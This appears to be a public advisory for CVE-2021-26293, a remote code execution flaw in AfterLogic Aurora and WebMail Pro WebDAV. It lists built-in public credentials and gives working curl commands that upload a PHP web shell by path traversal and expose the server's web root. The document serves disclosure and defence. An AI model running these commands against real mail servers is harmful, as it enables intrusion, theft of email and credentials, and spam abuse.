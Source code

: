 # **CVE-2021-26293**  - RCE via Public unrestricted upload with path traversal on AfterLogic Aurora & WebMail Pro WebDAV EndPoint

**Base Score:** 9.8 CRITICAL

**Vector:**  CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

**Complexity:** Easy

**Affected Products:** AfterLogic Aurora, AfterLogic WebMail PRO

**Authentication:** Not required

**Attacks:**  Directory Traversal, Unrestricted Upload of File with Dangerous Type, Public Built-in Credentials For Critical Function

**Gained Access:** WebServer user ( Apache, Nginx, Etc… )

## **Resources:**
* https://owasp.org/www-community/attacks/Full_Path_Disclosure
* https://owasp.org/www-community/attacks/Path_Traversal
* https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload

## **Authors:**

* Emre KELEŞ - @emrekeles on twitter [![Twitter URL](https://img.shields.io/twitter/url/https/twitter.com/emrekeles.svg?style=social&label=Follow%20%40emrekeles)](https://twitter.com/emrekeles)
* Emircan YILDIZ - @scorpsec on twitter [![Twitter URL](https://img.shields.io/twitter/url/https/twitter.com/scorpsec.svg?style=social&label=Follow%20%40scorpsec)](https://twitter.com/scorpsec)
* Halil Emre ÖZEN - @halilemreozen on twitter [![Twitter URL](https://img.shields.io/twitter/url/https/twitter.com/halilemreozen.svg?style=social&label=Follow%20%40halilemreozen)](https://twitter.com/halilemreozen)

## **Report Summary:**
AfterLogic Aurora and WebMail Pro products with 7.7.9 and all lower versions are affected by this vulnerability, simply sending an HTTP PUT request to WebDAV EndPoint with built-in “**caldav_public_user@localhost**” and it’s the predefined password “**caldav_public_user**” allows the attacker to create/overwrite files with malicious files such as web shells or database dumpers, etc.

After uploading a malicious PHP file to the web server, some example actions that the attacker can do;

1. Download / Modify the database
    1. Email addresses with easily decodable passwords
    2. CalDAV data ( Calendars of the users )
    3. CardDAV data ( Contacts of the users )
2. Download user uploaded private WebDAV files.
3. Intercept to read/modify emails of webmail users. 
    1. A way to read emails because webmail servers usually are whitelisted on mail servers while normal clients have thresholds
    2. A good way to spread malicious executables/mails to users without struggling mail gateways/spam blockers.
    3. Acting like the real user and sending vicious emails to important users/companies
    4. Sending bulk emails for spam campaigns.
4. Try to privilege escalation to get the root/administrator server.

Etc...

## **To Reproduce:**

Upload the malicious file with the following curl command

```shell
curl -T shell.php -u 'caldav_public_user@localhost:caldav_public_user' "https://sample-mail.tld/dav/server.php/files/persona/%2e%2e/%2e%2e//%2e%2e//%2e%2e/data//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e/var/www/html/shell.php"
```

As the AfterLogic WebMail Pro docs mentioned “the web root usually looks like /var/www/html” and at the above PoC assumes files are located under apache’s standard /var/www/html path, it may differ due to configuration but it’s not a block for the attacker because we realized that some of the EndPoints expose the document root path when the invalid path parameter requested.

Ways to figure out document root directory on customized web server configurations;

1. Using invalid path to get SabreDAV error which gives full path disclosure of the path to the webroot.

```shell
curl -X DELETE -u 'caldav_public_user@localhost:caldav_public_user' "https://sample-mail.tld/dav/server.php/files/personal/GIVE_ME_ERROR_TO_GET_DOC_ROOT_2021"
```

2. Trying to common web server paths
3. Brute force ( append new ../ to the URL, until getting HTTP 200 for the uploaded malicious file. )

## **Technical Description:**

* dav\server.php (handles the request, create the \afterlogic\DAV\Server instance )
* \libraries\Sabre\DAV\server.php -> exec (Pass the request method and uri to invokeMethod)
* \libraries\Sabre\DAV\server.php -> invokeMethod 
* \libraries\Sabre\DAV\server.php -> httpPut
* \libraries\Sabre\DAV\FS\File.php -> put

Unrestricted Upload of File with Dangerous Type, Directory Traversal problem starts on step 2 / exec, it doesn’t sanitize given parameters and checks the file extension which with that way attacker able to write upper directories and execute the malicious file

With the above problem any loggable user can uploads malicious files, with the caldav_public_user@localhost users, attackers don’t need any user info because it has a predefined password, so vulnerability becomes publicly accessible.
